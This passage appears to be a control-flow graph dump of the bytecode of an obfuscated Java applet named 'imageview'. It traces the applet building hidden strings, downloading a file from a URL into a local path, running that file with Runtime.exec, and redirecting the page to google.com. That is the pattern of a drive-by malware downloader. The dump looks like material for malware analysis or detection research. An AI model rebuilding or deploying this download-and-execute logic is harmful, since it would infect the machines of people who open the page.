    "load.r r3"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 30";
    "push 30"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 20";
    "push 20"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 18";
    "push 18"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 17";
    "push 17"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 13";
    "push 13"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 12";
    "push 12"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 29";
    "push 29"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "push \"hqFmIcApLtaF\""
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"push \"hqFmIcApLtaF\"";
    "push \"hqFmIcApLtaF\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 30";
    "push 30"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 20";
    "push 20"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 17";
    "push 17"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 11";
    "push 11"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 29";
    "push 29"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "load.r r2"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r2";
    "load.r r2"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 30";
    "push 30"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 2";
    "push 2"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 14";
    "push 14"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 12";
    "push 12"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 15";
    "push 15"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 29";
    "push 29"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "load.r r5"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r5";
    "load.r r5"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 30";
    "push 30"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 14";
    "push 14"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 18";
    "push 18"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 29";
    "push 29"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "load.r $r238"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r238";
    "load.r $r238"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "staticinvoke <GiknbqgwShSBPEslNCDt: java.lang.String bz(java.lang.String,java.lang.String)>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"staticinvoke <GiknbqgwShSBPEslNCDt: java.lang.String bz(java.lang.String,java.lang.String)>";
    "push \"-_-\""
    "staticinvoke <GiknbqgwShSBPEslNCDt: java.lang.String bz(java.lang.String,java.lang.String)>"->"push \"-_-\"";
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"
    "push \"-_-\""->"virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"->"store.r r2";
    "store.r r2"->"load.r r2";
    "load.r r2"->"push 2";
    "push 2"->"arrayread.r";
    "push \"G\""
    "arrayread.r"->"push \"G\"";
    "ifcmpeq.r goto return"
    "push \"G\""->"ifcmpeq.r goto return";
    "push null"
    "ifcmpeq.r goto return"->"push null";
    "push null"->"store.r r5";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "store.r r5"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"store.r r3";
    "store.r r3"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"load.r r1";
    "load.r r1"->"push 9";
    "push 9"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 21";
    "push 21"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 28";
    "push 28"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 8";
    "push 8"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 14";
    "push 14"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 28";
    "push 28"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 19";
    "push 19"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 12";
    "push 12"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 15";
    "push 15"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 3";
    "push 3"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 8";
    "push 8"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 17";
    "push 17"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r r1";
    "new java.net.URL"
    "store.r r1"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r2";
    "load.r r2"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"store.r $r238";
    "store.r $r238"->"push 0";
    "staticinvoke <java.lang.System: void exit(int)>"
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "staticinvoke <java.lang.System: void exit(int)>"->"load.r r5";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"
    "load.r r5"->"virtualinvoke <java.net.URL: java.io.InputStream openStream()>";
    "staticinvoke <java.nio.channels.Channels: java.nio.channels.ReadableByteChannel newChannel(java.io.InputStream)>"
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"->"staticinvoke <java.nio.channels.Channels: java.nio.channels.ReadableByteChannel newChannel(java.io.InputStream)>";
    "staticinvoke <java.nio.channels.Channels: java.nio.channels.ReadableByteChannel newChannel(java.io.InputStream)>"->"store.r $r238";
    "new java.io.FileOutputStream"
    "store.r $r238"->"new java.io.FileOutputStream";
    "new java.io.FileOutputStream"->"store.r r5";
    "store.r r5"->"load.r r5";
    "new java.lang.StringBuilder"
    "load.r r5"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r1";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r2";
    "load.r r2"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"load.r r5";
    "virtualinvoke <java.io.FileOutputStream: java.nio.channels.FileChannel getChannel()>"
    "load.r r5"->"virtualinvoke <java.io.FileOutputStream: java.nio.channels.FileChannel getChannel()>";
    "virtualinvoke <java.io.FileOutputStream: java.nio.channels.FileChannel getChannel()>"->"load.r $r238";
    "push 0L"
    "load.r $r238"->"push 0L";
    "push 5242880L"
    "push 0L"->"push 5242880L";
    "virtualinvoke <java.nio.channels.FileChannel: long transferFrom(java.nio.channels.ReadableByteChannel,long,long)>"
    "push 5242880L"->"virtualinvoke <java.nio.channels.FileChannel: long transferFrom(java.nio.channels.ReadableByteChannel,long,long)>";
    "pop"
    "virtualinvoke <java.nio.channels.FileChannel: long transferFrom(java.nio.channels.ReadableByteChannel,long,long)>"->"pop";
    "pop"->"load.r r5";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r r5"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"load.r $r238";
    "interfaceinvoke <java.nio.channels.ReadableByteChannel: void close()> 0"
    "load.r $r238"->"interfaceinvoke <java.nio.channels.ReadableByteChannel: void close()> 0";
    "interfaceinvoke <java.nio.channels.ReadableByteChannel: void close()> 0"->"load.r r3";
    "load.r r3"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r2";
    "load.r r2"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "pop"->"new java.net.URL";
    "new java.net.URL"->"store.r r2";
    "store.r r2"->"load.r r2";
    "push \"www.google.com\""
    "load.r r2"->"push \"www.google.com\"";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "push \"www.google.com\""->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"load.r r0";
    "virtualinvoke <imageview: java.applet.AppletContext getAppletContext()>"
    "load.r r0"->"virtualinvoke <imageview: java.applet.AppletContext getAppletContext()>";
    "virtualinvoke <imageview: java.applet.AppletContext getAppletContext()>"->"load.r r2";
    "push \"_self\""
    "load.r r2"->"push \"_self\"";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL,java.lang.String)> 2"
    "push \"_self\""->"interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL,java.lang.String)> 2";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL,java.lang.String)> 2"->"push 0";
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "goto goto return"
    "staticinvoke <java.lang.System: void exit(int)>"->"goto goto return";
    "goto return"
    "goto goto return"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "staticinvoke <java.lang.System: void exit(int)>"->"store.r r0";
    "store.r r0"->"push 0";
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "staticinvoke <java.lang.System: void exit(int)>"->"store.r r0";
    "store.r r0"->"push 0";
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "arrayread.r"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"store.r r5";
    "goto load.r r5"
    "store.r r5"->"goto load.r r5";
}

